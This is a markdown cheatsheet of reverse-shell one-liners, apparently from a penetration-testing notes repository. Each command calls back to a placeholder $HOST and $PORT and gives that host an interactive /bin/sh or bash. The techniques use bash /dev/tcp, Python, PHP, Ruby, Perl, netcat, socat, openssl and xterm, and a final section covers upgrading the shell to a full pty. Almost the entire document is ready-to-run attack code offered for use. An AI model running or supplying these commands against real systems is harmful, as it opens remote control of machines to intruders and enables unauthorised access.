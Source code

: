 ```yaml
---
title: Reverse Shells
tags:
  - Cheatsheet
---
```


Examples generally use `$HOST` and `$PORT` for the target host and port for the
shell callback.

## Bash ##

Bash **only** reverse shells generally require that `/dev/tcp` is enabled in
bash at build-time.

```
bash -i >& /dev/tcp/$HOST/$PORT 0>&1
```

Use redirection through a temporary FD (in this case, 42).

```
0<&42;exec 42<>/dev/tcp/$HOST/$PORT; sh <&42 >&42 2>&42
```

## Python ##

```
python -c 'import socket as so,subprocess,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("$HOST",$PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP ##

```
php -r '$sock=fsockopen("$HOST",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby ##

```
ruby -rsocket -e'f=TCPSocket.open("$HOST",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Perl ##

```
perl -e 'use Socket;$i="$HOST";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Common Utilities ##

Sometimes you can just use a utility available on the system.

### Netcat (Traditional) ###

```
nc -e /bin/sh $HOST $PORT
```

### Socat ###

[Socat is also a great handler for the shells](https://systemoverlord.com/2018/01/20/socat-as-a-handler-for-multiple-reverse-shells.html)

```
socat TCP:$HOST:$PORT exec:/bin/bash,pty,stderr,setsid
```

You can even get a full pty if you use socat as your listener.

Listener:

```
socat file:`tty`,raw,echo=0 tcp-listen:$PORT
```

Victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

### Netcat (OpenBSD) ###

OpenBSD netcat removed the `-e` flag "for security."  All of these mechanisms
will also work on traditional netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|nc $HOST $PORT >/tmp/f
```

### OpenSSL ###

For your encrypted reverse shells!  Depends on the openssl command line binary.
It's a lot like OpenBSD netcat.

```
rm /tmp/f;mkfifo /tmp/f;/bin/sh -i 2>&1 </tmp/f|openssl s_client -connect $HOST:$PORT >/tmp/f
```

### Xterm ###

This is very different.  Instead of forwarding a shell, forward a whole terminal
emulator!

Attacker host:

```
xnest :1
xhost +targetip
```

On the target:

```
xterm -display $HOST:1
```

## Reverse Shell Tips ##

So a basic reverse shell pretty much sucks.

- Hitting `^C` is a terrible experience.  (Usually kills the listener, not what
  you ran on the server.)
- No history, job control, etc.
- Can't use most editors.

### Getting a pty (python) ###

Probably the most commonly known technique:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Getting a pty (expect) ###

Expect isn't as commonly installed as python, but this is a good choice for some
circumstances.

```
cat >/tmp/e.exp <<EOF
#!/usr/bin/expect
spawn bash
interact
EOF
expect /tmp/e.exp
```

### Upgrading via python + stty ###

[Inspiration](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Before connection:

``` bash
echo 'After connection, please run: '
echo python -c 'import pty; pty.spawn("/bin/bash")'
echo export SHELL=bash
echo export TERM=$TERM
echo stty rows $(stty -a | tr ';' '\n' | awk '/^ rows/{print $2}') columns $(stty -a | tr ';' '\n' | awk '/^ columns/{print $2}')
stty raw -echo  # Note, you will lose echo here.
nc -lvp $PORT
```

After connecting, run the commands provided by the original script, and you
should be good to go.
